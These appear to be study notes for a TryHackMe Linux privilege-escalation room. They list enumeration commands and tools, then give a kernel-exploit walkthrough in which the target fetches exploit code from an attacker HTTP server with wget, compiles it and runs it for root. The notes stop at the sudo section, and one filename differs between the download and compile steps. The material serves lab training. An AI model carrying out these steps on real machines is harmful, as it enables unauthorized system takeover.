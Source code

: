 # Room
https://tryhackme.com/room/linprivesc

# Task 1 - Intro
Intro

# Task 2 - What is privilege escalation
* privilege escalation involves moving from a lower permission account to a higher permission account
* privilege escalation is the exploitation of a design flaw to gain unauthorized access

# Task 3 - enumeration
* post system access, you'll need to enumerate the machine to figure out if there is any opportunity for privilege escalation
* useful commands to gain info on a system you have access to - these are Linux related
    * hostname - print hostname
    * uname -a - print kernel details
    * cat /proc/version - provides kenerl and process details
    * cat /etc/issue - contains info abuot the OS
    * ps - list system processes
        * ps -A - view all running procs
        * ps axjf - view process tree
        * ps aux - view procs for all users
    * env - view environment variables
    * sudo -l - list the current users sudo privileges
    * ls - list files
    * id - list the uid, gid, and groups that the current user belongs to
    * cat /etc/passwd - a list of users and services on the machine
    * history - view the command history of the current user
    * ifconfig - view network interface configuration
    * ip route - list assigned/configured network routes
    * netstat - list listening and established connections to the machine
        * netstat -at - list IPv4/IPv6 TCP connections
        * netstat -au - list IPv4/IPv6 UDP connections
        * netstat -l - list all listening services
        * netstat -s, netstat -st, netstat -su - list stats for the network, tcp only, udp only
        * netstat -i - show interface stats
    * find - find things on the system
        * find . -name flag1.txt - find the thing named flag1.txt in the current directory
        * find /home -name flag1.txt - find the thing named flag1.txt in the /home directory
        * find / -type d -name config - find the directory named config in the root
        * find / type f -perm 0777 - find files with permissions set to 0777
        * find / -perm a=x - find executable things
        * find /home -user frank - find things that frank owns in the home directory
        * find / -mtime 10 - find things modified in the last 10 days
        * find / -atime 10 - find things that were accessed in the last 10 days
        * find / -cmin -60 - find things changed in the last hour
        * find / -amin -60 - find things accessed in the last hour
        * find / -size 50M - find things with a 50 meg file size
            * you can also use + or - for sizings to find things less than or larger than what you are searching for
        * to avoid all the permissions spam redirect your find commands to null
            * 2> /dev/null

# Task 4 - automated enumeration tools
* a few automated tools
    * https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
    * https://github.com/rebootuser/LinEnum
    * https://github.com/mzet-/linux-exploit-suggester
    * https://github.com/diego-treitos/linux-smart-enumeration
    * https://github.com/linted/linuxprivchecker

# Task 5 - privilege escalation - kernel exploits
* manually exploit a kernel vulnerability
    * connect to the machine using the creds provided
    * recon
        * target: uname -a
    * since we already know this is a kernel vulnerability, search google for the exploit
        * 3.13.0-24-generic exploit
        * https://www.exploit-db.com/exploits/37292
    * Kali has a preconfigured exploit on the attack box, host it up and transfer it to the target
        * attacker: searchsploit -m 37292 .
        * attacker: python -m http.server 9393
        * target: cd /tmp
        * target: wget http://10.10.10.10:9393/37292.c
        * target: gcc 37282.c -o e
        * target: chmod +x e
        * target: ./e
        * target: whoami

# Task 6 - privilege escalation - sudo

